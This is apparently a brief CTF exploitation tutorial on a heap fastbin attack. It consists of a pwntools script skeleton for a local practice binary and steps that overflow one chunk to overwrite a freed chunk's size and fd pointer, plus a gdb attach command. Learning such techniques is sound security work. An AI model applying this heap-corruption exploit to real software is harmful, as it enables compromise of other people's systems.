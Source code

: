 ## 4.1.3 heap fastbins attack

Write basic framework
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
context.binary = './pwn'
elf = context.binary
libc = elf.libc
p = process('./pwn')

def show():
    p.sendlineafter(':', '1')

def add(length, name):
    p.sendlineafter(':', '2')
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def edit(idx, length, name):
    p.sendlineafter(':', '3')
    p.sendlineafter(':', str(idx))
    p.sendlineafter(':', str(length))
    p.sendafter(':', name)
    sleep(0.01)

def delete(idx):
    p.sendlineafter(':', '4')
    p.sendlineafter(':', str(idx))

p.interactive()
```
add 2 chunks, free the 1st one, edit the chunk(heap overflow) to change the fd of the 2nd one, free the 2nd one
```python
add(0x50, '000000')
add(0x50, '111111')

delete(1)
pause()
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0xdeadbeef))
delete(2)
```
gdb break set to the read function in edit
``` gdb -q -p `pidof pwn` -ex "b *0x400C05" -ex "c"```
